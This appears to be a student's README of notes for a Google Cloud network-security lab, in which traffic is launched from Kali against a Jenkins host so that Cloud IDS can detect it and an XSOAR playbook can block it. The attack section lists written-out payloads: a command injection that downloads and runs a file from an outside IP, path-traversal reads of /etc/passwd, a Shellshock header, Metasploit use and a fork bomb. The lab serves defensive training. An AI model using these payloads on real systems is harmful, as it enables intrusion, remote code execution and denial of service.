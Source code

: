 ### GSP1117 :  Enhancing Google Cloud Network Security 

<img width="895" alt="Ac9SwKvKfspE1ZKfqcy_VZ+IJUJ4sQoqI0fJoNzznv4=" src="https://github.com/tariqsheikhsw/GoogleCloudArchitectLabs/assets/54164634/5e0ddde9-c38f-40f0-8b29-dda836d1c737">

![image](https://github.com/tariqsheikhsw/GoogleCloudArchitectLabs/assets/54164634/c4830dc2-7d43-44ab-8b47-830a8b701899)


# Kali attack launch against JENKINS 

ssh kali@34.168.0.62
//kali

wget www.eicar.org/download/eicar.com.txt --tries 5

curl http://192.168.11.4:8080/?[1-10]

curl "http://192.168.11.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
curl http://192.168.11.20/?item=../../../../WINNT/win.ini
curl http://192.168.11.20/eicar.file
curl http://192.168.11.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.11.20/cgi-bin/test-critical
echo done

msfconsole -r jenkins.rc

python -c 'import pty; pty.spawn("/bin/bash")'

whoami

:(){ :&:;};:


# CloudIDS Query

resource.type:("ids.googleapis.com/Endpoint") AND resource.labels.location:("us-west1-a")
jsonPayload.application="jenkins"

# XOAR

gcloud pubsub topics create cloud-ids-topic

gcloud pubsub subscriptions create cloud-ids-sub \
    --topic="cloud-ids-topic" \
    --ack-deadline="10" \
    --expiration-period="2678400s" \
    --message-retention-duration="604800s"

gcloud compute firewall-rules create xsoar-blacklist \
    --direction=INGRESS \
    --priority=10 \
    --network=panw-trust-vpc \
    --action=DENY \
    --rules=all \
    --source-ranges=1.1.1.1

# Sink Inclusion Filter 

logName="projects/qwiklabs-gcp-02-927b48c7055b/logs/ids.googleapis.com%2Fthreat"
jsonPayload.alert_severity="CRITICAL"

# XOAR 

//Service Account Private Key File (JSON)

//Playbook : Cloud IDS-IP Blacklist-GCP Firewall_Combine

![image](https://github.com/tariqsheikhsw/GoogleCloudArchitectLabs/assets/54164634/eb5b8b2d-e4d1-4805-83a3-9dd2192be1bf)


